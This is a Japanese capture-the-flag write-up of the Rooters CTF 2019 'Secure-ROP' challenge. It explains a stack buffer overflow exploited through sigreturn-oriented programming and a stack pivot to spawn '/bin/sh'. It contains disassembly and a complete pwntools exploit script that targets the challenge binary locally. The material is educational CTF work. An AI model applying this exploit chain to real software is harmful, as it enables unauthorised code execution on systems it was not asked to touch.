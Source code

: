 ```yaml
---
tags: pwn
---
```


# Rooters CTF 2019 - \#Secure-ROP

これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

問題のリポジトリ(何故かclone出来なかった): <https://github.com/abs0lut3pwn4g3/RootersCTF2019-challenges>

## Writeup

### Outline

自明なBOFがあるのにまともなROP Gadgetが無い。任意のシステムコールを呼ぶことは出来るのでrt_sigreturnを呼び出し、`read(0, &.data, size)`を呼ぶ。これで.dataセクションに`/bin/sh`とROPチェーンを書き込み、`leave; ret`でstack pivotしてからもう一度SROPして今度は`execve("/bin/sh", null, null)`をシステムコールで呼ぶ

### checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Binary

radare2で覗いてみると次のようになっている

```
            ;-- rip:
┌ 17: entry0 ();
│           0x00401037      e8c4ffffff     call fcn.00401000
│           0x0040103c      b83c000000     mov eax, 0x3c               ; '<' ; 60
│           0x00401041      bf00000000     mov edi, 0
└           0x00401046      0f05           syscall
```

```
            ; CALL XREF from entry0 @ 0x401037
            ;-- section..text:
            ;-- segment.LOAD1:
┌ 55: fcn.00401000 ();
│           0x00401000      55             push rbp                    ; [01] -r-x section size 72 named .text
│           0x00401001      4889e5         mov rbp, rsp
│           0x00401004      4883ec40       sub rsp, 0x40
│           0x00401008      b801000000     mov eax, 1
│           0x0040100d      bf01000000     mov edi, 1
│           0x00401012      488d34250020.  lea rsi, str.Hey__can_i_get_some_feedback_for_the_CTF ; 0x402000 ; "Hey, can i get some feedback for the CTF?\n\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff"
│           0x0040101a      ba2a000000     mov edx, 0x2a               ; '*' ; 42
│           0x0040101f      0f05           syscall
│           0x00401021      bf00000000     mov edi, 0
│           0x00401026      488d7424c0     lea rsi, [rsp - 0x40]
│           0x0040102b      ba00040000     mov edx, 0x400              ; 1024
│           0x00401030      6a00           push 0
│           0x00401032      58             pop rax
│           0x00401033      0f05           syscall
│           0x00401035      c9             leave
└           0x00401036      c3             ret
```

だいたい[前問](https://hackmd.io/@Xornet/BJi8X6slD)と同じで`read(0, buf, 0x400)`をしている。`buf`の位置からrbpまで0x80ある一方で0x400バイト書き込めることからBOFが存在する。

rabin2にかけるとこんな感じ

```
$ rabin2 -sSz
[Sections]

nth paddr       size vaddr       vsize perm name
――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000   0x0 0x00000000    0x0 ---- 
1   0x00001000  0x48 0x00401000   0x48 -r-x .text
2   0x00002000  0x2a 0x00402000   0x2a -rw- .data
3   0x0000202a  0x17 0x00000000   0x17 ---- .shstrtab

[Symbols]

nth paddr vaddr bind type size lib name
―――――――――――――――――――――――――――――――――――――――
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002000 0x00402000 42  42   .data   ascii Hey, can i get some feedback for the CTF?\n
```

`/bin/sh`は無いので前問のように1回のrt_sigreturnシステムコールでシェルを起動するのは出来ない。まずはシェルを起動するために`/bin/sh`を.dataセクションに書き込むことを考える

## `/bin/sh`の書き込み

今回も`pop rax; syscall`が存在するのでBOFでこれをリターンアドレスに置いてrt_sigreturnシステムコールを呼ぶ。ここで呼ぶのはread(番号: 0)で`read(0, &.data, size)`とすれば.dataセクションの先頭から`size`バイト分だけ書き込む事ができる。ここでまずは`/bin/sh`を書き込む

## stack pivot

シェル起動用の文字列を書き込むだけで終わりではない。使ったgadgetをよく見ると`pop rax; syscall; leave; ret`となっている。
leave命令は`mov rsp, rbp; pop rbp`を実行することからsigreturnでrbpに上手く値を入れておけば次のスタックトップを指定できそうである。そして`ret`するのでここで再びsigreturnでシステムコールを呼ぶようにしておけば今度こそexecveを使ってシェルを起動出来そうである

というわけでBOFを利用する際の書き込みは次のようなレジスタになるようにする

```
rax: 0  // read(0, &.data, size)
rdi: 0
rsi: &.data
rdx: size  // 余裕を持って0x400ぐらいにしておいた
rip: &syscall; leave; ret
rbp: .data  // ripにleaveを仕込んだので&.data + 0x8がstack topになってretする
```

これでreadがシステムコールで呼ばれることからもう1度入力が出来る。
.dataセクションの先頭から次のように書き込むことで`/bin/sh`を書きながらstack pivot後にROPで再びシステムコールを呼べるようにする

```
.data        : "/bin/sh\x00"  // leave(mov rsp, rbp; pop rbp)でrspはここに来て、rbpにpopする
.data + 0x08 : &pop rax; syscall  // retでpop rax; syscallへ飛ぶ
.data + 0x10 : 0xf
.data + 0x18 : (values...)
```

`values`の部分はrt_sigreturnシステムコールで次のようなレジスタになるようにする

```
rax: 59
rdi: &.data  // /bin/shが入っている
rsi: 0
rdx: 0
rip: &syscall
```

これで`execve("/bin/sh", null, null)`が呼ばれることになる

## Code

```python
from pwn import p64, u64, ELF, process, remote, SigreturnFrame, context


if __name__ == "__main__":
    elf = ELF("vuln")
    context.binary = elf
    data_start = 0x402000
    gadgets = {
        "syscall": 0x401046,
        "syscall_leave_ret": 0x401033,
        "pop_rax_syscall_leave_ret": 0x401032
    }

    s = process(elf.path)
    # s = remote("", None)

    # _ = input("[+] debug\n")

    junk = b"a" * 0x88
    payload = junk
    payload += p64(gadgets["pop_rax_syscall_leave_ret"])
    payload += p64(0xf)
    
    # stack pivot
    size = 0x400
    frame = SigreturnFrame()
    frame["rax"] = 0  # read(0, data_start, size)
    frame["rdi"] = 0
    frame["rsi"] = data_start
    frame["rdx"] = size
    frame["rbp"] = data_start  # when leave executed, moved to rsp
    frame["rip"] = gadgets["syscall_leave_ret"]

    payload += bytes(frame)
    s.send(payload)

    # write /bin/sh to .data section
    payload = b"/bin/sh\x00"
    payload += p64(gadgets["pop_rax_syscall_leave_ret"])
    payload += p64(0xf)

    frame = SigreturnFrame()
    frame["rax"] = 59  # execve("/bin/sh", null, null)
    frame["rdi"] = data_start
    frame["rsi"] = 0
    frame["rdx"] = 0
    frame["rip"] = gadgets["syscall"]

    payload += bytes(frame)
    s.send(payload)

    s.interactive()

```

## Flag

ローカルシェル取り太郎先輩

## 感想

SROP第2段ということで解きました。同じ分野でも2回は解いておきたいので2問解きましたがstack pivotが要求されるこちらの方がやや複雑でした。
これでまた次のpwnネタが発生するまでしばらくサボります、Heapはクソムズい問題しか残ってなくて新しいネタもあんまり見つけて無くて辛いです